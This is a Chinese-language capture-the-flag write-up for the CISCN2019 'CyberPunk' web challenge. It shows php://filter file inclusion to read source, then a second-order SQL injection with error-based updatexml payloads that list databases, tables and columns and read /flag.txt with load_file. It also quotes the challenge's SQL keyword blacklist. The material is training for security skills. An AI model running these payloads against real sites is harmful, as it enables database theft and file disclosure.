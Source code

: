 # \[CISCN2019 华北赛区 Day1 Web5]CyberPunk

## \[CISCN2019 华北赛区 Day1 Web5]CyberPunk

## 考点

* 文件包含配合伪协议读取文件
* 代码审计
* 注入点寻找与判断
* 报错注入

## wp

F12有个提示，GET参数file

![](../.gitbook/assets/image\_ghy78fM78JSxubyt67i6Ef.png)

访问?file=delete.php发现展示了主页和删除两个页面，不出意外是include("delete.php")了

使用php://filter可以获取源码

?file=php://filter/convert.base64-encode/resource=delete.php

![](../.gitbook/assets/image\_uofpqGYbbNPt4xCfkw1wFZ.png)

分别读取index.php，delete.php，confirm.php，change.php，search.php，config.php

一个功能一个功能看，index.php用于显示页面和构造文件读取漏洞，订单提交的目标脚本是confirm.php，在config.php中初始化了SQL实例对象

在index.php填写数据提交，在confirm.php接收三个参数，user\_name、address、phone

对user\_name和phone进行黑名单检测，通过后执行查询语句。`select * from user where user_name='user_name' and phone='phone'`

禁用字符串如下，

```
select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile
```

如果没有查询到相同的订单就插入一个新的，不过这里插入用的是预编译的方式。要注意的是，这里插入address的时候并没有检验它的值，只检验了user\_name和address。到这感觉是二次注入。

```php
$sql = "insert into `user` ( `user_name`, `address`, `phone`) values( ?, ?, ?)";
$re = $db->prepare($sql);
$re->bind_param("sss", $user_name, $address, $phone);
$re = $re->execute();
```

![](../.gitbook/assets/image\_exaTa9mbwUXYZ2KTZvH1cJ.png)

查询的功能是在search.php实现，获取两个参数，user\_name和phone，然后对它们进行同上的黑名单检测，然后执行`select * from user where user_name='user_name' and phone='phone'`，把所有信息返回。

![](../.gitbook/assets/image\_nV7DJ8cz7hvjBcqhJ9n1PW.png)

修改的功能在change.php实现，在获取参数时，对user\_name和phone进行黑名单检测，对address执行addslashes函数（在单双引号和反斜杠前加反斜杠）。

在通过黑名单检测后，先查询确定订单存在，然后再进行更新操作，不过只能进行地址修改的操作。

```php
update user set address="address", old_address="$row['address']" where user_id="$row['user_id']"
```

![](../.gitbook/assets/image\_sLt9B8LZE8xLooUMhNNFKw.png)

最后是订单删除的操作，和查询本质上差不多，找到订单然后删除。

现在大概的思路就是，新建一个订单在地址插入payload1，然后在修改订单的地方插入payload2，最后在查询的地方进行回显。会被addslashes进行转义的是payload2

```php
insert into user ( user_name, address, phone) values( "aaaa", "payload1", "aaaa")
update user set address='payload2', old_address='payload1' where user_id=1
```

如果payload1是一个单引号，那么在修改时，会报如下错误，也就是说在payload1处闭合语句可以构造注入

![](../.gitbook/assets/image\_9f5au5xNPSTiEDVvvrPuEd.png)

先新建一个订单，地址填单引号，其他全填aaa，然后修改订单信息，可以看到订单id，是1

再新建一个订单，全填aaaa，地址要填这个``bbbb' where `user_id`=1#``，然后修改订单

再去查询处，填写aaa，可以发现注入成功

![](../.gitbook/assets/image\_kQs3wev9HRqkj2rRABQCDA.png)

剩下的就是经典的拼语句了，update注入之报错注入

* ``bbbb' where `user_id`=updatexml(1,concat(0x7e,(select count(SCHEMA_NAME) from information_schema.SCHEMATA),0x7e),1)#``
* ``bbbb' where `user_id`=updatexml(1,concat(0x7e,(select group_concat(SCHEMA_NAME) from information_schema.SCHEMATA),0x7e),1)#``
* ``bbbb' where `user_id`=updatexml(1,concat(0x7e,(select reverse(group_concat(SCHEMA_NAME)) from information_schema.SCHEMATA),0x7e),1)#``
* ``bbbb' where `user_id`=updatexml(1,concat(0x7e,(select substr(group_concat(SCHEMA_NAME),30,50) from information_schema.SCHEMATA),0x7e),1)#``

第一个语句可以得到数据库数量，第二个和第三个可以得到部分数据库，如下information\_schema,ctftraining,erformance\_schema,test,ctfusers

中间少了一个，如果想知道是什么就要用substr了，即第四个，得到

g,mysql,performance\_schema,test

完整六个数据库就是information\_schema,ctftraining,mysql,performance\_schema,test,ctfusers

然后是表名

* `bbbb' where user_id=updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='ctfusers'),0x7e),1)#`
* `bbbb' where user_id=updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='ctftraining'),0x7e),1)#`

第一个是user，第二个是FLAG\_TABLE,news,users

然后看字段

* `bbbb' where user_id=updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='FLAG_TABLE'),0x7e),1)#`

是FLAG\_COLUMN

最后查看值

* `bbbb' where user_id=updatexml(1,concat(0x7e,(select FLAG_COLUMN from ctftraining.FLAG_TABLE),0x7e),1)#`

都是空的，结果payload是这样

`bbbb' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#`

看不完整前面提到解决方案了

## 小结

1. 报错注入回显有长度限制，可以使用reverse，也可以使用limit，也可以修改substr的参数
2. `select group_concat(SCHEMA_NAME) from information_schema.SCHEMATA`
3. `select reverse(group_concat(SCHEMA_NAME)) from information_schema.SCHEMATA`
4. `select substr(group_concat(SCHEMA_NAME),30,50) from information_schema.SCHEMATA`
